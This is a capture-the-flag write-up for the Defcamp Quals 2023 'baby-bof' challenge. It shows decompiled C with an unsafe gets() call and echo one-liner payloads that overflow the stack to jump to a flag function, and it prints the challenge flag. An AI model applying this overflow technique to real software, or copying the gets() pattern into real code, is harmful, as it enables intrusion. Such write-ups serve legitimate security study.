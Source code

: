 ```yaml
---
title: baby-bof
date: 2023-10-22T09:56:31+03:00
description: Writeup for baby-bof [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

This is a basic buffer overflow.

Flag format: CTF{sha256}

### Intuition

By decompiling we see an obvious buffer overflow and a ``flag`` function that we can jump to.

```c
void flag(void)
{
  char local_98 [136];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Well done!! Now use exploit remote! ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_98,0x80,local_10);
  printf(local_98);
  return;
}


/* Called by the main function */
void vuln(void)
{
  char local_138 [304];
  
  gets(local_138);
  return;
}

```
PIE is not enabled so we can just hardcode the addresses in an echo.

### Solution

Simply echo to the binary:
```
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof
Please enter the flag: 
Segmentation fault (core dumped)
```
This crashes because of alignment issues. Let's fix it with a ret gadget address (found with ROPGadget) to align it back:

```
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\x05\x40\x00\x00\x00\x00\x00\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof
```

#### Flag

```ctf{c7fabc6bfe7e4b40b78244854f95f089414bb8354e021f89fe632202bb35ef99}```
